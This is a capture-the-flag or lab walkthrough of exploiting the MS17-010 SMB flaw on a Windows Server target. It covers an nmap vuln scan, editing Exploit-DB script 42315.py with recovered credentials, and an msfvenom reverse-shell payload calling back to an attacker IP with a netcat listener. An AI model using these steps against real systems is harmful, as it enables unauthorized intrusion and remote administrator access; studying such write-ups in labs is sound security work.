

ms17-010
We begin by doing nmap again, but this time we use vuln script to check for vulnerabilities.
nmap --script vuln 10.10.20.25 [Note: Generally we should include ports with -p for efficiency]
This will show ms17-010 vulnerability.
Note: As the server is not running windows 7, we cannot run “eternalblue” exploit directly from metasploit framework.
Thus, we search for ms17-010 in exploit database.

We will use the python code that supports Microsoft Windows 2016 R2 (This was hinted in OS detection of initial nmap scan.
Get the file to user working directory using.
searchsploit -m windows/remote/42315.py
Note: This will require python2
(So impacket also has be installed for python2. [pip2 install impacket])
Then examine the file and edit the following:
1) We need to give values in username and password.
Luckily we have 2 usernames and passwords.
Note: While enumerating the machine earlier, I tried to RDP into the machine using the gained credentials.
Both the users couldn't login. However, the error message of user Jill suggested that her password is expired.
Thus for our python program lets start with Bob and !P@$$W0rD!123
2) Starting from Line 916. Comment out the following. The following lines are used to create a file bane “pwned.txt” as a POC. However, we need a reverse shell, so we will replace it the following.
#print('creating file c:\\pwned.txt on the target')
#tid2 = smbConn.connectTree('C$')
#fid2 = smbConn.createFile(tid2, '/pwned.txt')
#smbConn.closeFile(tid2, fid2)
#smbConn.disconnectTree(tid2)
smb_send_file(smbConn, 'rshell.exe', 'C', '/rshell.exe' )
service_exec(conn, r'C:\rshell.exe')
3) Create a reverse shell using msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.31 LPORT=7777 -f exe -o rshell.exe
3) Get this prequisite file.
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
Keep both the 42315.py, mysmb.py and rshell.exe in the same directory and run the exploit as follows:
4) Start a netcat listner: nc -lvnp 7777
5) Run the exploit using python2:
python2 42315.py 10.10.227.128
We will get a reverse shell in our netcat listener. (we will directly foothold with admin access)

Thanks !!